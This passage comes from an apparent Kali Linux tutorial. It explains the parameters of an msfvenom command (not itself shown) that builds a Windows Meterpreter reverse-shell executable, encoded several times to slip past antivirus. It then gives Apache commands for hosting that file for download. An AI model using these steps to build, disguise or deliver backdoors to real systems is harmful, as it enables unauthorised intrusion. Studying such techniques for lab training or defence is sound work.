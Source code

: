The above command will create the malicious executable file named **Exploit.exe** and will be saved on Kali's **desktop**. 
Multiple encoders (**xor_dynamic** and **shikata_ga_nai**) have been used to obfuscate the payload. The **-i** option specifies the number of times the payload will be encoded. Each iteration applies a different encoding algorithm to the payload, making it more difficult to detect by anti-virus software and other security mechanisms. But keep in mind that increasing the no. of iterations also increases the final payload's size.

### Explanation of Parameters:

-   **`-p`**: Specifies the payload (Windows Meterpreter Reverse TCP).
-   **`--platform windows`**: Targets the Windows OS.
-   **`-a x86`**: Specifies the architecture.
-   **Encoders (`xor_dynamic` and `shikata_ga_nai`)**: Obfuscate the payload to evade detection.
-   **`-i 5`**: Encodes the payload 5 times. Each iteration applies a different encoding algorithm to the payload, making it more difficult to detect by anti-virus software and other security mechanisms.
-   **`-f exe`**: Specifies the output format as an executable.

Keep in mind that increasing the no. of iterations also increases the final payload's size!


## 2. Configure Apache to Share the Exploit


### Install and Verify Apache

First, make sure that you have apache2 installed. You can type `apache2 -v` in your terminal. This will get you the version type and an indication of whether you have apache2 installed or not.
If not, you can install it by typing `apt-get install apache2`. 

### Configure Apache for File Sharing

Navigate to the apache2 folder and open the apache2.conf configuration file using the following command: `vim /etc/apache2/apache2.conf`. 

Add a new line: `servername localhost` to the apache file under **# ServerName** and save the file.

Navigate back to the terminal and create a new directory inside html folder:

`mkdir /var/www/html/share/`

Now, change the permissions of the above directory and all of its contents (recursively) to allow read and execute access for all users and write access for the owner of the files/directories:

`chmod -R 755 /var/www/html/share/`

Change the ownership of that folder to www-data:

`chown -R www-data:www-data /var/www/html/share/`

Now copy the malicious executable file to the shared location:

`cp /home/kali/Desktop/Exploit.exe /var/www/html/share/`


Start the apache service to run the http server:
